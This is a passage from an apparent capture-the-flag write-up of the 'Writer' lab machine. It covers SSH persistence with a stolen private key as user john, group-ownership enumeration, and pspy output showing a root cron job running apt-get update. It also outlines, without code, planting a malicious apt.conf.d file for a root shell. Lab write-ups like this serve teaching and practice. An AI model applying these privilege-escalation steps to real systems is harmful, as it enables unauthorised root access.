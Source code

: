 Not sure how and why this gave us a shell for user john, when I sent the mail to and from kyle. Reading on hacktricks we have the following example:
> For example the line `flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}` means that `/etc/postfix/filtering` will be executed if a new mail is received by the user mark

With this logic we recipient should be john, in order to spawn the new shell. But maybe it's just that the script is triggered by user john? 

----------------------------------------------------------------

### Step 3

Get persistence as John and grab his private key, relogin. 

```bash
┌──(void㉿void)-[/git/htb/writer]
└─$ ssh john@writer.htb -i john-id_rsa
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

Since john is in group `management` I assume the privesc has something to do with that. Start to look for files and directories owned by group `management`.

```bash
john@writer:/dev/shm$ find / -type f -group management 2>/dev/null
john@writer:/dev/shm$ find / -type d -group management 2>/dev/null
/etc/apt/apt.conf.d
```

We (`management`) own apt.conf.d meaning we can abuse cron job to get a root shell. Looking through the running processes with `pspy64` we can see that `/usr/bin/apt-get update` is executed frequently. We can exploit this by creating our own malicious file inside `apt.conf.d` to be executed along with `apt-get update`.

```bash
john@writer:/dev/shm$ ./pspy64
..
2021/09/14 08:26:01 CMD: UID=0    PID=250774 | /usr/bin/find /etc/apt/apt.conf.d/ -mtime -1 -exec rm {} ; 
2021/09/14 08:26:01 CMD: UID=0    PID=250777 | /usr/sbin/CRON -f 
2021/09/14 08:26:01 CMD: UID=0    PID=250776 | /usr/sbin/CRON -f 
2021/09/14 08:26:01 CMD: UID=0    PID=250779 | /usr/sbin/CRON -f 
2021/09/14 08:26:01 CMD: UID=0    PID=250780 | /usr/bin/apt-get update 
2021/09/14 08:26:01 CMD: UID=0    PID=250781 | /usr/bin/apt-get update 
2021/09/14 08:26:01 CMD: UID=0    PID=250784 | /bin/sh -c /usr/bin/cp /root/.scripts/master.cf /etc/postfix/master.cf 
2021/09/14 08:26:01 CMD: UID=0    PID=250783 | /usr/bin/cp -r /root/.scripts/writer2_project /var/www/ 
2021/09/14 08:26:01 CMD: UID=0    PID=250782 | /bin/sh -c /usr/bin/cp -r /root/.scripts/writer2_project /var/www/ 
2021/09/14 08:26:01 CMD: UID=0    PID=250785 | /usr/lib/apt/methods/http 
2021/09/14 08:26:01 CMD: UID=0    PID=250786 | /usr/bin/apt-get update 
2021/09/14 08:26:01 CMD: UID=33   PID=250787 | /usr/bin/python3 manage.py runserver 127.0.0.1:8080 
```
